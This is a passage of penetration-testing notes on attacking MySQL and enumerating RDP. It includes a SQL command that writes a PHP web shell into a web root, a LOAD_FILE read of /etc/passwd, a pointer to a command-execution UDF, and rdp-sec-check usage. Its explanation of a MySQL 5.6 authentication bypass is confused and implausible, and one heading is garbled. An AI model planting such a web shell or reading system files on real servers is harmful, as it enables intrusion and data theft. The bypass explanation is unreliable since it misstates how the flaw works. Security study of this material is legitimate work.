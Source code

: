 - **Write**

  - [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). 

  - If connected to a web server:

    - Check read/write privileges

      ```bash
      show variables like "secure_file_priv";
      ```

      - If empty, the variable has no effect, which is not a secure setting.
      - If set to the name of a directory, the server limits import and export operations to work only with files in that directory.
      - If set to NULL, the server disables import and export operations.

    - Write a file in the webserver directory 

      ```bash
      SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
      ```

    - Browse to the location where the file is and execute our commands.

- **Read Local Files** (not allowed by default)

  ```bash
  select LOAD_FILE("/etc/passwd");
  ```

- **Authentication bypass v5.6.x**

  The server takes longer to respond to an incorrect password than to a  correct one. Thus, repeatedly authenticate with the same  incorrect password, will work.

### 3389tu - RDP

#### Generalities

- **Type:** Authentication (remote)
- It opens a live session
- Structure:
  - typically utilizing TCP port 3389 as the transport protocol,  the connectionless UDP protocol can use port 3389 also for remote  administration.
  - For an RDP session to be established, both the network firewall and the  firewall on the server must allow connections from the outside.
  - all data, and especially the login process, is protected in the network  by its good encryption. However, many Windows systems do not insist on  this but still accept inadequate encryption.

#### Interaction

- [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) can unauthentically identify the security settings of RDP servers based on the handshakes.

  ```bash
  ./rdp-sec-check.pl [IP]
  ```
